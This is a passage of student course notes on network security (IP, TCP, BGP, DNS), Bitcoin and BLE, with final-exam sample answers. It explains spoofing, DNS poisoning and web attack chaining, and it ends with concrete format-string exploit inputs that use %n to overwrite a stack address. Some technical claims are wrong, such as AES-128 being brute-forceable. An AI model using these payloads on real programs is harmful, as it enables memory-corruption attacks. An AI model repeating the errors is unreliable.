80  Header Checksum (16 bits)
======== END OF HEADER ========
96  Source Address (32 bits)
128 Destination Address (32 bits)
160 Options (variable length)
```

Note source and destination IP addresses are not included in the header checksum.

IP routing: hop-by-hop forwarding of packets. Each router looks at the destination IP address and forwards the packet to the next hop. 

- **Router** (network layer) bridges two or more networks. It forwards packets between networks based on the destination IP address.
- **Switch** (data link layer) connects devices within a single network. It forwards frames based on the MAC address. Switches are faster than routers because they do not need to look up the destination IP address.
- Routing table maps IP addresses to MAC addresses, i.e. next hop.
- **Fragmentation and reassembly**: IP packets can be fragmented into smaller packets for transmission. Each fragment has its own header, and the destination host reassembles the fragments into the original packet.
- **Error reporting**: ICMP (Internet Control Message Protocol) packets are sent to source hosts in case of packet loss or error. ICMP is used for ping and traceroute.
- **TTL**: Time to Live, a field in the IP header that limits the lifetime of a packet. Each hop (router) decrements the TTL by 1. If TTL reaches 0, the packet is discarded. This prevents packets from circulating indefinitely in the network.

#### IP Vulnerabilities

No source IP authentication, so IP packets can be spoofed. Attackers can send packets with a forged source IP address, making it difficult to trace the source of the attack. Response will be sent to the forged source IP address.

**Denial of Service (DoS)**: Attackers send large number of packets to host providing service, overwhelming the host and causing it to crash or become unresponsive.

- Attacke propogates from zombie hosts (compromised hosts), travels through trees of routers, and reaches the victim host.
- IP source spoofing can be used to hide the attack source and scatter the return traffic.

**Virtual Private Network (VPN)**: A secure tunnel between two endpoints over the Internet. It encrypts the data and provides a secure connection.

It has multiple uses:

- Remote access: Allows users to connect to a private network from a remote location.
- LAN-to-LAN: Connects two or more private networks over the Internet.
- Controlled access within an intranet: Provides secure access to specific resources within a private network.

And uses various protocols:

- PPTP (Point-to-Point Tunneling Protocol)
- L2TP (Layer 2 Tunneling Protocol)
- IPsec (Internet Protocol Security)

#### IPSec

- Security extensions for IPv4 and IPv6.
- **IP Authentication Header (AH)**: Authentication and integrity check for both the IP header and the payload.
- **IP Encapsulating Security Payload (ESP)**: Provides confidentiality for the payload. Encrypts the payload and adds an ESP header.
- ESP ICV (Integrity Check Value): An optional field in the ESP header that adds authentication and integrity check for the payload.

Two modes:

- **Transport mode**: Only the payload is encrypted and authenticated. The IP header is not modified.
    - 5 layers: Application, Transport (TCP/UDP), IP/IPsec, Ethernet, Physical.
- **Tunnel mode**: The entire IP packet is encrypted and encapsulated in a new IP packet. The original IP header is replaced with a new IP header.
    - 6 layers: Application, Transport (TCP/UDP), IP, IPsec, Ethernet, Physical.

IPsec packet format:

```
Transport Mode
| IP/IPsec Header | AH | ESP | TCP/UDP | App | Message |

Tunnel Mode
| New IP Header | AH | ESP | Raw IP Header | TCP/UDP | App | Message |
```

### TCP

TCP: Transmission Control Protocol

**Connection-oriented protocol**: A connection is established before data is sent. TCP provides reliable, **ordered**, and error-checked delivery of data.

- Sender breaks data into packets, each packet has a sequence number.
- Receiver acknowledges receipt of packets. If a packet is lost, the sender retransmits it.

TCP header:

```
0   Source Port (16 bits)
16  Destination Port (16 bits)
32  Sequence Number (32 bits)
64  Acknowledgment Number (32 bits)
96  Data Offset (4 bits)
106-111 URG, ACK, PSH, RST, SYN, FIN (6 bits)
```

TCP 3-way handshake:

1. Client SYN `SEQ=c, ACK=0` -> Server
2. Server SYN/ACK `SEQ=s, ACK=c` -> Client
3. Client ACK `SEQ=c+1, ACK=s` -> Server
4. Connection established.



Security issues:

Untrusted hosts can evaesdrop TCP connections, and inject packets into the connection. 

**Packet sniffing**: The attacker can capture packets and analyze them to extract sensitive information, such as passwords or credit card numbers. This is possible because some application protocols (e.g. FTP, Telnet) send data in plaintext. Prevented by using encryption (e.g. HTTPS, SSH).

**TCP Connection Spoofing**: Suppose initial SEQ number is known, attacker can create TCP session on behalf of the forged source IP address. This is possible because TCP does not authenticate the source IP address.

1. Attacker SYN `srcIP=victim` -> Server
2. Server SYN/ACK `dstIP=victim, SEQ=s` -> Attacker
3. Attacker ACK `srcIP=victim, ACK=predicted server SEQ` -> Server
4. Connection established. Server thinks the command is from victim.
5. Attacker can now send commands to the server on behalf of the victim.

The SEQ number is random and unpredictable. If it is chosen randomly, the success probability is $\frac{1}{2^{32}}$. However, in a long-lived connection, the SEQ number may display a pattern due to a limited range of acceptable SEQ numbers, allowing the attacker to guess the SEQ number. Alternatively, the attacker can repeatedly connect to the server and obtain a sequence of SEQ numbers, which can be used to predict the next SEQ number.

This should not be an issue today, should the server use a cryptographically secure random number generator, unpredictable upon each connection.

**TCP Congestion Control**: TCP uses a sliding window mechanism to control the flow of data. The sender can only send a certain amount of data before waiting for an acknowledgment from the receiver. This prevents the sender from overwhelming the receiver with too much data.

- **Slow Start**: After the connection is established, the sender starts with a small window size and increases it exponentially until it reaches a threshold. This allows the sender to quickly find the optimal window size.
- **Congestion Avoidance**: After reaching the threshold, the sender increases the window size linearly. This probes the network for available bandwidth without overwhelming it.
- **Fast Retransmit**: If the sender receives three duplicate ACKs, it assumes that a packet has been lost and retransmits it immediately. This reduces the time it takes to recover from packet loss.

However, TCP congestion control allows for certain attacks: **Optimistic ACK attack**.
- Attacker sends ACKs for data segments that have not been received yet. This deceives the sender into thinking that more bandwidth is available, causing it to send more data than the network can handle.
- Eventually, the network becomes congested and packets are dropped. This can lead to a denial of service attack.

### Routing

- **Autonomous System (AS)**: A collection of IP networks and routers under the control of a single organization. Each AS has a unique AS number (ASN).
- **Border Gateway Protocol (BGP)**: The protocol used to exchange routing information between ASes. eBGP shares routing information between different ASes, while iBGP propagates routing information within an AS.
- **Address Resolution Protocol (ARP)**: A protocol used to map IP addresses to MAC addresses. ARP is used to resolve the MAC address of a host given its IP address. It is a broadcast protocol, meaning that ARP requests are sent to all hosts on the local network.
- **OSPF**: Open Shortest Path First, a link-state routing protocol used within an AS. OSPF uses Dijkstra's algorithm to calculate the shortest path to each destination.

BGP security issues:

- BGP packets are unathenticated, so an attacker can send false routing information to a router. This is called **advertisement hijacking**. Advertisement will propagate to other ASes, causing traffic to be misrouted. This can lead to DoS or spam attacks.
- BGP does not verify the AS path, so BGP is vulnerable to human error or malicious attacks. Links, routers and management stations can be misconfigured, causing routing loops or black holes.

S-BGP (Secure BGP): A security extension to BGP that adds authentication and integrity checks to BGP packets. It uses digital signatures to verify the authenticity of BGP packets and prevent advertisement hijacking.

- IPSec + PKI (Public Key Infrastructure) to authenticate BGP packets.
- **Attestations**: A trusted third party digitally signs the BGP routing information.
- **Route Origin Authorization (ROA)**: A mechanism to verify the origin of BGP routes. It allows ASes to publish their routing policies and verify the authenticity of BGP routes.

### Domain Name System (DNS)

Hierarchical:

| Sever name | Domain level | Example |
| --- | --- | --- |
| Root | Top-level domain (TLD) | .edu |
| Authoritative | Subdomain | standford.edu |
| Authoritative | Subdomain | cs.standford.edu |
| Local | Hostname | www.cs.standford.edu |

DNS record types

| Type | Description | Example |
| --- | --- | --- |
| A | Address record (domain -> IP) | example.com -> 192.168.41.1 |
| AAAA | IPv6 address record | example.com -> 2001:db8::1 |
| CNAME | Canonical name record (alias) | www.example.com -> example.com |
| NS | Name server | example.com -> ns.example.com |
| MX | Mail exchange | example.com -> mail.example.com |

Note NS registers the name server for a domain (example.com). So DNS queries for subdomains of example.com  will query ns.example.com.

**Caching**: DNS servers cache the results of DNS queries to reduce the load on the DNS system.

- Both server and address records are cached. i.e. both the IP address and the name server (NS) are cached.
- Negative queries are also cached, so for a non-existent domain, the server will return a cached negative response instead of querying the root server again.
- TTL (Time to Live, unit: second): The time a DNS record is cached before it expires. It is set by the authoritative name server and can be overridden by the resolver. The resolver can also cache negative responses for a shorter period of time.

DNS packet format: Responses are linked to queries by the ID field.

```
0   Query ID (16 bits, random)
16  Flags (16 bits) [QR, OPCODE, AA, TC, RD, RA, Z, RCODE]
32  Number of Questions (16 bits)
48  Number of Answers (16 bits)
64  Number of Authority Records (16 bits)
80  Number of Additional Records (16 bits)
======== END OF HEADER ========
96  Questions or Answers (variable length)
```

DNS vulnerabilities:

- Interception: An attacker can intercept DNS queries and responses, and modify them to redirect the user to a malicious website. This is called **DNS spoofing** or **DNS poisoning**.

Solution:
- Increase query ID size.
- Randomize source port.
- **DNSSEC**: A security extension to DNS that adds authentication and integrity checks to DNS records. It uses digital signatures to verify the authenticity of DNS records and prevent DNS spoofing.
- **DNS over HTTPS (DoH)**: A protocol that encrypts DNS queries and responses using HTTPS. This prevents eavesdropping and tampering of DNS queries and responses.

DNSsec makes no change to the DNS packet format, but adds new Resource Records (RRs): RRSIG, DNSKEY, DS, NSEC/NSEC3.

- Lookup referral chain is unsigned.
- Origin attestation chain (PKI) is signed.

## 8. Cryptocurrency and Blockchain

Recall:

Hash function maps data of arbitrary size to a fixed-size hash value. Properties: collision-resistant (it is computationally infeasible to find two different inputs that hash to the same output) and hiding (it is computationally infeasible to find an input that hashes to a given output). **No hash function has been proven collision-free**.

Hash pointer: A data structure that contains a hash of the data and a pointer to the data. It is used to verify the integrity of the data. If the data is modified, the hash will change, and the pointer will be invalidated.

Blockchain: A chain of blocks, where each block contains a hash pointer to the previous block.

```
sk, pk = generateKeys(keySize)
sig = sign(sk, msg)
isValid = verify(pk, msg, sig)
```

### Double-spending Attack

If the attacker manages to create two different transactions with the same input, they can spend the same coin twice. This is called a double-spending attack.


To avoid this, some may propose that, when coins are consumed, the coins are destroyed and new coins of the same value are created. This is called a **coinbase transaction**. However, this is not a good idea, as it would require a trusted third party to verify the transaction, i.e. decentralizing is not possible.

### Bitcoin

Property 1: Bitcoin is **pseudo-anonymous**. Each entity has an ECDSA key pair $(sk, pk)$, and the public key is used as the address. The private key is used to sign transactions. The public key is not linked to the identity of the user, but it is possible to link multiple transactions to the same user if they use the same public key.

Recall: Digital signature

```
hash = SHA256(msg)
sig = sign(pk, hash)
signed_msg = msg + sig
```

Since public key is public, everyone can verify all coins and transactions. This can be used to trace the double-spending attack.

**Public ledger**: A public record of all transactions, stored as a blockchain.

Property 2: Bitcoin is **decentralized**. There is no central authority to verify transactions. There are ledgers but no banks. The ledger is maintained by a network of nodes, and each node has a copy of the ledger. The nodes communicate with each other to verify and validate transactions.

Computing over the full block chain gives the ownership of Bitcoins; there are no explicit account balances, but structured in terms of transactions.

The key challenge in Bitcoin: **distributed consensus**. All nodes must agree on the state of the ledger, i.e. the order of transactions. This is done using a consensus algorithm called **Proof of Work (PoW)**.

**Mining**: All miners execute communal, computationally-intensive work to find a nonce that satisfies the PoW. The nonce is a random number that is added to the block header. Mathematically, the problem is to find a **ticket** (nonce) such that the hash of the block header is less than a target value. The target value is adjusted every 2016 blocks to maintain a constant block time of 10 minutes; the number of leading zeros in the hash is called **mining difficulty**. The more leading zeros, the harder it is to find a nonce.

```
SHA256^2(block_n, X_n, ticket_n?) < 0x000000000000c67aa... // target value
```

**Longest chain rule**: The longest chain is the valid chain. If two miners find a block at the same time, the network will split into two chains. The longest chain will be accepted as the valid chain, and the shorter chain will be discarded.

Incentive for mining: Miners are rewarded with new bitcoins for finding a block. The reward is halved every 210,000 blocks (approximately every 4 years). This is called the **block reward**. In addition, miners also receive transaction fees from the transactions included in the block.

**GPU mining**: Due to its high parallelism and high throughput, GPUs are used for mining. They can perform many calculations simultaneously, making them more efficient than CPUs for mining.

- **FGPA**: Field-Programmable Gate Array, a type of hardware that can be programmed to perform specific tasks. FPGAs are more efficient than GPUs for mining.
- **ASIC**: Application-Specific Integrated Circuit, a type of hardware that is designed specifically for mining. ASICs are the most efficient for mining, as they are optimized for the specific hashing algorithm used in Bitcoin.

## 9. BLE Security

**Bluetooth**: A wireless technology standard for exchanging data over short distances. It uses short-range radio frequency (RF) to connect devices.

- **Bluetooth Low Energy (BLE)**: A low-power version of Bluetooth designed for low-bandwidth applications. It is used in IoT devices, wearables, and other battery-powered devices.

Roles of a Bluetooth device:

- **Peripheral Advertiser**: A connectable advertiser. Example: a heart rate monitor.
- **Central Scanner**: Scans for advertisements and initiates connections. Example: a smartphone.
- **Broadcaster**: A non-connectable advertiser. Example: beacons. 
- **Observer**: Non-connectable scanner. Example: beacons display.

Case Study: BLE heart rate monitor and smartphone.

The mobile application must know the UUID of the heart rate monitor to connect to it. The UUID is a 128-bit number that uniquely identifies the device. The UUID is used to identify the service and characteristic of the device.

By deassemblying APK of the mobile application, it can be observed that many apps use static UUIDs. This is a security issue, as an attacker can use the static UUID to connect to the device and read/write data.

Case Study: Dongles and CAN bus.

**Control Area Network (CAN)**: A vehicle bus standard designed to facilitate communication among various in-vehicle systems. It is used in automotive applications, industrial automation, and medical devices.

Dongles are used to connect the CAN bus to a smartphone or other device. The dongle can read and write data to the CAN bus, allowing the smartphone to control the vehicle.

The OBD-II port is a standard interface for connecting to the CAN bus. It is used for diagnostics and monitoring of the vehicle's systems.

Vulnerabilities:

- OBD-II dongle broadcast the UUID of the dongle, allowing an attacker to sniff the packets and obtain the UUID.
- OBD-II use a fixed set of commands to communicate with the vehicle.
- So if a nearby attacker has the UUID, they can inject commands into the CAN bus and control the vehicle.

Case Study: App-defined BLE peripherals.


Vulnerabilities: 

- **Cleartext transmission of sensitive data**
    - Advertisement packets containing a service UUID
    - Constant base and variant
    - User ID
    - Broadcasting driver ID
- **Impropoer access control**
    - Allowing connection to any device
    - Configuring GATT server
    - Characteristics with no protection
    - Storing keys to unlock remote screens

Any static UUID can potentially leak sensitive information.

- **Weak encryption**: BLE uses AES-128 encryption, which is not secure against brute-force attacks. An attacker can use a dictionary attack to obtain the encryption key.

Case Study: COVID-19 contact tracing apps.

- When two devices are in close proximity, they exchange random IDs (temporary exposure keys) over BLE.
- The random IDs, time stamps, and signal strength (implies distance) are stored in a local database.
- When one of the contacts is diagnosed with COVID-19, all the recent logs are uploaded to the server.
- The server notifies whoever has been in contact with the infected person.
- The server does not store any personal information, only the random IDs and time stamps.

---

Final exam preparation:

> Sample question: HTTPS prevent MITM attacks. However proxy serves as a middleman, monitoring and modifying the traffic. Why is this not a problem?

For public normal usage, the web browser need to verify the validity of CA after checking the certificate of a HTTPS server. PKI ensures HTTPS can prevent MITM in this case.

A local HTTPS proxy server is a trusted third party. A local CA can be setup and the administrator tells your browser that the local CA is trusted. The proxy uses this local CA to sign modified certificates.

> Sample question: Instead of typing https://www.example.com, we directly browse https://93.184.216.34. What will be different for the browser?

For a domain name, the browser will first query the DNS server to resolve the domain name to an IP address. The browser will then establish a TCP connection to the server using the resolved IP address.

For a raw IP address, the browser will skip the DNS resolution step and directly establish a TCP connection to the server using the IP address.

> Sample question: Please name a few vulnerabilities can lead to the modification of the return address field, and describe their difference.

- **Buffer overflow**: A program writes more data to a buffer than it can hold, causing the excess data to overwrite adjacent memory locations.
- **Heap overflow**: A program writes more data to a heap-allocated buffer than it can hold, causing the excess data to overwrite adjacent memory locations in the heap.
- **Format string vulnerability**: A program uses a format string to print data, but does not properly validate the input. An attacker can use this to overwrite the return address field on the stack.
- **Integer overflow**: A program performs arithmetic operations on integers, but does not properly validate the input.

Difference:

- Buffer overflow grants access to execution of arbitrary code on the stack; heap overflow grants access to heap; format string vulnerability grants access to arbitrary memory locations, and leaks memory contents; integer overflow grants access to heap or stack, depending on the context.

> Sample question: A news article claims that a web application enabled a XSS that could in turn launch a SQLi. Is this possible? Justify your answer.

CSRF  XSS:

- Possible? Yes.
    - Step 1: CSRF attack cause victim's browser to send a request including a malicious script to the server.
    - Step 2: Server reflects the unescaped script back to the browser (reflected XSS).
- Powerful? Yes: CSRF can silently inject XSS without user interaction. If the XSS payload gets stored and executed for all users, the whole website is compromised.

CSRF  SQLi:

- Possible? Yes: For a vulnerable endpoint, CSRF can GET or POST a request with SQLi payload.
- Powerful? Yes: CSRF can inject SQLi on an authenticated session, meaning SQLi can access user-specific data.

XSS  CSRF:

- Possible? Yes.
- Powerful? Yes: Traditional CSRF is blind, meaning the attacker can't see the response. With XSS, the attacker can see the result of the request; steal CSRF tokens; bypass CSRF protection like SameSite cookies.

XSS  SQLi:
- Possible? Yes: If the app has client-side interaction that submits data (e.g. AJAX), XSS can inject SQLi payloads.
- Powerful? Yes: XSS let attacker steal CSRF tokens, craft autheticated requests, and escalate to full account takeover or data exfiltration.

SQLi  XSS:

- Possible? Yes: If the attacker injects stored XSS payloads using SQLi, the payload will be executed when the data is retrieved.
- Powerful? Yes: Similar to CSRF  XSS, this makes XSS to target all users of the app.

SQLi  CSRF:

- Possible? No: SQLi cannot be used to forge requests.

> Show how does RSA work by giving formulas.

1. Generate keys
    - Choose two large prime numbers $p$ and $q$.
    - $n = p \times q$ is the modulus.
    - $\phi(n) = (p-1)(q-1)$ is the totient.
    - Choose a public exponent $e$ such that $1 < e < \phi(n)$ and $\gcd(e, \phi(n)) = 1$. Conventionally, $e = 65537$.
    - Compute the private exponent $d$ such that $d \times e \equiv 1 \mod \phi(n)$ using the Extended Euclidean Algorithm.
    - Public key: $(e, n)$
    - Private key: $(d, n)$
2. Encrypt message
    - Convert the plaintext message $m$ to blocks of integers $m_i$ such that $0 \leq m_i < n$.
    - Sender compute the ciphertext $c_i$ for each block using the public key of the receiver: $c_i \equiv m_i^e \mod n$.
3. Decrypt message
    - Compute the plaintext $m_i$ for each block using the private key: $m_i \equiv c_i^d \mod n$.
    - Convert the blocks back to the original message.

> Show how format string vulnerability works.

Background: a pointer `va_list` points to the first argument of the function in the `fmtstr()` stack frame. The function `va_arg()` retrieves the next argument from the list and advances the pointer to the next argument.

1. Crash program.
    - `%s%s%s%s%s%s%s%s%s%s%s` will read 10 arguments from the stack. For each, it treats the 32-bit value as a pointer to a string, and prints the string. If that memory location is invalid, the program will crash.
2. Leak memory.
    - `%x.%x.%x.%x.%x.%x.%x.%x.%x` prints the integer value pointed by `va_list` and advances it by 4 bytes.
3. Write memory.
    - `%n` writes the number of characters printed so far
    - Change `var` (at `0xbffff304`) to `0x9896a9`
    - `echo $(printf "\x04\xf3\xff\xbf").%x.%x.%x.%x.%x.%n > input` (44 characters)
    - `echo $(printf "\x04\xf3\xff\xbf")_%.8x_%.8x_%.8x_%.8x_%.10000000x%n > input` (10000041 characters = 0x9896a9)